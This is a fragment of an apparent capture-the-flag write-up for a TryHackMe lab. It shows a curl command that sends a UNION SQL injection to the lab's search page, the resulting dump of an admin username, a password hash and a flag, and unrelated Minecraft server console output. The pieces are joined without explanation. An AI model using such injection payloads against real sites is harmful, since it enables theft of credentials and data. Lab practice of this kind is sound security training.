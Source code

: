 ```jsx
[REDACTED] - MORE

                    <td></td>
                    <td></td>
                    <td>id</td>
                </tr>
                <tr>
                    <td></td>
                    <td></td>
                    <td>user</td>
                </tr>
                <tr>
                    <td></td>
                    <td></td>
                    <td>hash</td>
                </tr>
          </table>
        </div>
    </div>
</body>
</html>

```

`curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+NULL%2Cid%2Cuser%2Chash+FROM+admin+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`

```jsx
[REDACTED] - MORE
                <tr>
                    <td>1</td>
                    <td>xXUltimateCreeperXx</td>
                    <td>88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01</td>
                </tr>
                <tr>
                    <td>4</td>
                    <td>web_flag</td>
                    <td>THM{bbe315906038c3a62d9b195001f75008}</td>
                </tr>
          </table>
        </div>
    </div>
</body>
</html>

```


[12:58:13 INFO]: /tp: Teleports the given player (or yourself) to another player or coordinates
[12:58:13 INFO]: /unregister: 
[12:58:13 INFO]: /version: Gets the version of this server including any plugins in use
[12:58:13 INFO]: /weather: Changes the weather
[12:58:13 INFO]: /whitelist: Manages the list of players allowed to use this server
[12:58:13 INFO]: /xp: Gives the specified player a certain amount of experience. Specify <amount>L to give levels instead, with a negative amount resulting in taking levels.